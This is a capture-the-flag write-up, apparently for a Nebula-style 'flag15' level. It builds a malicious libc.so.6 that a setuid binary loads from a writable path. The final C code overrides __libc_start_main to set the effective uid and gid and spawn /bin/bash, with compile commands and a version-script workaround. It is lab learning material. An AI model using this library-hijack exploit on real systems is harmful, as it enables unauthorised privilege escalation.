 Now lets compile it!!
```
cmd: gcc -Wall -fPIC -c *.c
```

When running, we got the following error

```
./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

Lets google that symbol ! <br> 
It seems a destructor for the libc... lets add it to the evil lib !! <br>

```
void __cxa_finalize (void *d){
        return;
}
```

Now we got a different error, so i assume the destructor worked ! <br>

```
./flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

we need to add the system function symbol !! <br> 

Since we'll need to set the uid and the gid when executing (to maintain the privileges when spawning a shell) and we need functions that we do not have (will miss symbols) let's try to statically link the evil libc to the original ! <br>

I was stuck in this compilation because it was always saying that there was no version information available for the crafted libc <br>

Turns out that it needs to be supplied some arguments to the compiler and create an auxiliar file with the version that was saying in the error (GLIBC_2.0)
```
echo "GLIBC_2.0 { };" > version

I was doing: gcc -Wall -fPIC -shared -static-libgcc libc.c -o libc.so.6
The needed: gcc -Wall -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic libc.c -o libc.so.6
```

Final code
```
#include <linux/unistd.h>
#include <sys/types.h>

void __cxa_finalize (void *d){
        return;
}

int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)){
        gid_t gid;
        uid_t uid;

        gid = getegid();
        uid = geteuid();

        setresgid(gid, gid, gid);
        setresuid(uid, uid, uid);

        system("/bin/bash");
}
```
